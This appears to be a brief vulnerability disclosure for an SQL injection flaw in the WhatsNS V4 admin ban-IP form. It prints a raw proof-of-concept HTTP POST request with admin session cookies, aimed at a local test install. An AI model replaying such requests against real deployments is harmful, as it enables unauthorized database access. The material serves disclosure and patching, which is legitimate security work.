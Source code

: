 # WhatSNS V4 sqlinject

Project official: [https://www.whatsns.com](https://www.whatsns.com/)

project address: <https://gitee.com/huangyouzhi/whatsns>

## $ip variable

>
>   URL:http://127.0.0.1/whatsns/index.php?admin_banned/add.html
![alt text](https://github.com/YangSirrr/opendebug/blob/master/whatsns/img/w11.jpg)


- POST:

```
POST /whatsns/index.php?admin_banned/add.html HTTP/1.1
Host: 127.0.0.1
Content-Length: 84
Cache-Control: max-age=0
Origin: http://127.0.0.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://127.0.0.1/whatsns/index.php?admin_banned/add.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1557362955; UIA=25w5_%5D.0a%5Bea51%2C7%2F-0b54%60%2AX4%5D%5D_1%28b7d2%60%2F%2Cb2b%5C83b%2F%28a%29%2A-a66%2C%29073_%5Cc%2F306%60; bdshare_firstime=1557799980117; admin=admin; pass=96e79218965eb72c92a549dd5a330112; _qddaz=QD.hseds1.6f7ht3.jwptla86; Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1560155578; _ga=GA1.1.1218018200.1562750483; PHPSESSID=h3hd7t6ptn12padakioc0ma8t1; Hm_lvt_b60316de6009d5654de7312f772162be=1570587747,1570678141,1570858233,1571039155; CmsCode=gab; Hm_lpvt_b60316de6009d5654de7312f772162be=1571039517; whatsnssid=d8bab68b1a953728; whatsnsauth=61e6Qq7XJ%2FsTmG%2BeCWSu507H0taq%2B6l%2BZYn%2Bm7BiW8Tca69D47kPL9pe3n0VoJK9ufoUEfZH0r2xM%2BiGETq5
Connection: close

ip%5B%5D=1&ip%5B%5D=2&ip%5B%5D=3&ip%5B%5D=4&expiration=30&submit=%E6%B7%BB+%E5%8A%A0
```

verification: 

![](https://github.com/YangSirrr/opendebug/blob/sourece/w2.png)

